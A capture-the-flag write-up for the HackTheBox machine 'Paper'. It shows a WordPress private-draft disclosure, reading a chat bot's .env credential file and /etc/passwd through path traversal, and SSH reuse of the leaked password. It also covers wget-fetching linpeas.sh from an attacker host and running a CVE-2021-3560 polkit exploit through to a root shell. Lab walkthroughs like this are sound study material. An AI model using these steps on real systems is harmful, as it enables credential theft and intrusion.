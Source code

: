 # PAPER
### User Flag

First of all I used nmap and fuzzed the website but found nothing

```
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

If we look around the website nothing interesting seems to appear but if you look at the response from any request we find an interesting field

```
X-Backend-Server: office.paper
```

This means there is a backend server at that location so if we add that to our /etc/host we can connect to it.

```bash
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1			localhost
10.10.11.143         office.paper
```

Reading through the web we find and interesting comment **"Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!"**
At this point I used wpscan to see if I could find something

```bash
wpscan --url office.paper

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://office.paper/ [10.10.11.143]
[+] Started: Fri Apr 29 07:10:43 2022
...

[!] 32 vulnerabilities identified:
...
```

One of them specially caught my eye "Unauthenticated Users View Private Posts", to apply it you just had to use this url **http://office.paper/?static=1** and the draft page will appear.
Here I found a url to register in a chat website so I did (I also had to add the url at etc/hosts). After reading through the general channel I started messing with the bot to see what I could do.
After some time I ended up looking  ../hubot/.env and I got this


```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD= ████████
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>

```

Previosly I also looked at /etc/passwd and noticed a user called dwight that matched with who created the bot so I tried connecting via ssh with that user and password an it worked.

### Root flag

Once I was in I just used linpeas.sh as usual although I had to dowload to my machine and then pass it to the victim since it seemed the victim could not connect outside the network

```bash
[kali@kali ~]$ python3 -m http.server 5050

Serving HTTP on 0.0.0.0 port 5050 (http://0.0.0.0:5050/) ...

...

[dwight@paper ~]$ wget 10.10.14.127:5050/linpeas.sh
--2022-04-29 07:44:30--  http://10.10.14.127:5050/linpeas.sh
Connecting to 10.10.14.127:5050... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776167 (758K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1                           100%[===========================================================================>] 757.98K  2.44MB/s    in 0.3s

2022-04-29 07:44:30 (2.44 MB/s) - ‘linpeas.sh.1’ saved [776167/776167]


```

Once I executed it one of the firsts lines underlined in orange said Vulnerable to **CVE-2021-3560**
So I searched for an exploit, I found two (the python one did not work for me)

https://github.com/Almorabea/Polkit-exploit // did not work

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh // worked

I downloaded the script as I did before and used it

```bash
[dwight@paper ~]$ chmod +x poc.sh
[dwight@paper ~]$ ./poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su secnigma
Password:
[secnigma@paper dwight]$ sudo bash
[sudo] password for secnigma:
[root@paper dwight]#

```

default password is *secnigmaftw*. It's normal that it doesn't work at first, I had to do it 3 times until it worked
